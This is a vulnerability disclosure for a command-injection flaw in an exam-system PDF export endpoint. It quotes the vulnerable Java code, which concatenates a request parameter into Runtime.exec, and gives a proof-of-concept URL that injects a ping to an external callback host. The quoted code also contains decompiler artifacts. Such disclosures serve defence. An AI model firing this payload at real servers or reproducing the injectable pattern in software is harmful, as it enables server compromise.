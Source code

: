 ![image-20250225202220657](./image-20250225202220657.png)

# Vulnerability Report
## Vendor Homepage
https://hzmanyun.com

## Title:
Arbitrary Command Execution in Exam Export PDF Functionality

### Summary:
The code provided contains a critical vulnerability that allows for arbitrary command execution. By manipulating the 'id' parameter in the '/plan/examExportPDF' endpoint, an attacker can inject and execute arbitrary commands on the underlying operating system.

### Affected Endpoint:
`/plan/examExportPDF`

### Vulnerability Type:
Arbitrary Command Execution (RCE)

### Vulnerable Code:
```java
@RequestMapping({"/plan/examExportPDF"})
public void examExportPDF(HttpServletResponse response, @RequestParam("id") String id) {
    try {
       Runtime run = Runtime.getRuntime();
       String rootPath = ContextLoader.getCurrentWebApplicationContext().getServletContext().getRealPath("/");
       String fileName = System.currentTimeMillis() + ".pdf";
       String filePath = rootPath + "/pdffile/" + fileName;
       File dir = new File(rootPath + "/pdffile/");
       if (!dir.exists()) {
          dir.mkdir();
       }

       Process process = run.exec("/opt/source/wkhtmltox/bin/wkhtmltopdf --page-size A3 "
               + CommonConstants.contextPath + "/plan/exam/info?id="
               + id
               + " "
               + filePath);
       process.waitFor();
       response.setHeader("content-disposition", "attachment;filename=" + URLEncoder.encode(fileName, "UTF-8"));
       InputStream in = new FileInputStream(new File(filePath));
       int len = false;
       byte[] buf = new byte[1024];
       OutputStream out = response.getOutputStream();

       int len;
       while((len = in.read(buf)) > 0) {
          out.write(buf, 0, len);
       }

       in.close();
    } catch (Exception var13) {
       logger.error("---------------------" + var13);
    }
}
```

### Proof of Concept (PoC):
```
http://uri/plan/examExportPDF?id=1;ping 9e9e4078.log.nat.cloudns.ph.;
```

![image-20250225210555561](./image-20250225210555561.png)

### Impact:

An attacker can exploit this vulnerability to execute arbitrary commands on the server hosting the application. This could lead to data theft, unauthorized access, and potential compromise of the entire system.

### Recommendation:
1. Validate and sanitize user input to prevent command injection attacks.
2. Avoid using user input directly in command execution.
3. Implement proper input validation and output encoding to mitigate such vulnerabilities.

### Conclusion:
The code provided is vulnerable to arbitrary command execution due to improper handling of user input. It is crucial to address this issue promptly to prevent potential exploitation by malicious actors.

### References:
N/A

